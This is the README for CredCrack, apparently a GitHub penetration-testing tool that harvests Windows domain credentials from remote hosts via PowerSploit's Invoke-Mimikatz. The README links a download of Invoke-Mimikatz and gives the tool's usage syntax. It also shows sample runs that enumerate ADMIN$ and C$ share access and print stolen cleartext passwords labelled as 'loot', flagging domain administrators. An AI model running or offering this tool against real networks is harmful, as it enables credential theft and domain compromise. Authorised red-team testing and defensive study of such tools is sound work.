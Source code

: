 # CredCrack

##Introduction
-----

CredCrack is a fast and stealthy credential harvester. It exfiltrates credentials recusively in memory and in the clear. Upon completion, CredCrack will parse and output the credentials while identifying any domain administrators obtained. CredCrack also comes with the ability to list and enumerate share access and yes, it is threaded!

CredCrack has been tested and runs with the tools found natively in Kali Linux. CredCrack solely relies on having PowerSploit's "Invoke-Mimikatz.ps1" under the /var/www directory. [Download Invoke-Mimikatz Here](https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1)

## Help
-----
```
usage: credcrack.py [-h] -d DOMAIN -u USER [-f FILE] [-r RHOST] [-es]
                    [-l LHOST] [-t THREADS]

CredCrack - A stealthy credential harvester by Jonathan Broche (@g0jhonny)

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  File containing IPs to harvest creds from. One IP per
                        line.
  -r RHOST, --rhost RHOST
                        Remote host IP to harvest creds from.
  -es, --enumshares     Examine share access on the remote IP(s)
  -l LHOST, --lhost LHOST
                        Local host IP to launch scans from.
  -t THREADS, --threads THREADS
                        Number of threads (default: 10)

Required:
  -d DOMAIN, --domain DOMAIN
                        Domain or Workstation
  -u USER, --user USER  Domain username

Examples: 

./credcrack.py -d acme -u bob -f hosts -es
./credcrack.py -d acme -u bob -f hosts -l 192.168.1.102 -t 20
```

## Examples
-----

###Enumerating Share Access

```
./credcrack.py -r 192.168.1.100 -d acme -u bob --es
Password:
 ---------------------------------------------------------------------
  CredCrack v1.1 by Jonathan Broche (@g0jhonny)
 ---------------------------------------------------------------------
 
[*] Validating 192.168.1.102
[*] Validating 192.168.1.103
[*] Validating 192.168.1.100

 -----------------------------------------------------------------
 192.168.1.102 - Windows 7 Professional 7601 Service Pack 1 
 -----------------------------------------------------------------
 
 OPEN      \\192.168.1.102\ADMIN$ 
 OPEN      \\192.168.1.102\C$ 

 -----------------------------------------------------------------
 192.168.1.103 - Windows Vista (TM) Ultimate 6002 Service Pack 2 
 -----------------------------------------------------------------
 
 OPEN      \\192.168.1.103\ADMIN$ 
 OPEN      \\192.168.1.103\C$ 
 CLOSED    \\192.168.1.103\F$ 

 -----------------------------------------------------------------
 192.168.1.100 - Windows Server 2008 R2 Enterprise 7601 Service Pack 1 
 -----------------------------------------------------------------
 
 CLOSED    \\192.168.1.100\ADMIN$ 
 CLOSED    \\192.168.1.100\C$ 
 OPEN      \\192.168.1.100\NETLOGON 
 OPEN      \\192.168.1.100\SYSVOL 

[*] Done! Completed in 0.8s
```

###Harvesting credentials
-----

```
./credcrack.py -f hosts -d acme -u bob -l 192.168.1.100
Password:

 ---------------------------------------------------------------------
  CredCrack v1.1 by Jonathan Broche (@g0jhonny)
 ---------------------------------------------------------------------
 
[*] Setting up the stage
[*] Validating 192.168.1.102
[*] Validating 192.168.1.103
[*] Querying domain admin group from 192.168.1.102
[*] Harvesting credentials from 192.168.1.102
[*] Harvesting credentials from 192.168.1.103

                  The loot has arrived...
                         __________
                        /\____;;___\    
                       | /         /    
                       `. ())oo() .      
                        |\(%()*^^()^\       
                       %| |-%-------|       
                      % \ | %  ))   |       
                      %  \|%________|       

                
[*] Host: 192.168.1.102 Domain: ACME User: jsmith Password: Good0ljm1th
[*] Host: 192.168.1.103 Domain: ACME User: daguy Password: P@ssw0rd1!

     1 domain administrators found and highlighted in yellow above!

[*] Cleaning up
[*] Done! Loot may be found under /root/CCloot folder
[*] Completed in 11.3s
```

####Contact
Contact me at [@g0jhonny](https://twitter.com/g0jhonny) with any questions or features you'd like to see in the next update. For bugs submit an [issue](https://github.com/gojhonny/CredCrack/issues/new)!

####Credits
CredCrack couldn't have been possible without the contributions of the following individuals. You're all rockstars!
[@JosephBialek](https://twitter.com/JosephBialek), [@brav0hax](https://twitter.com/brav0hax), [@altonjx](https://twitter.com/altonjx) and everyone else! Thank you for all your contributions and feedback to make this a better script, keep 'em coming! 
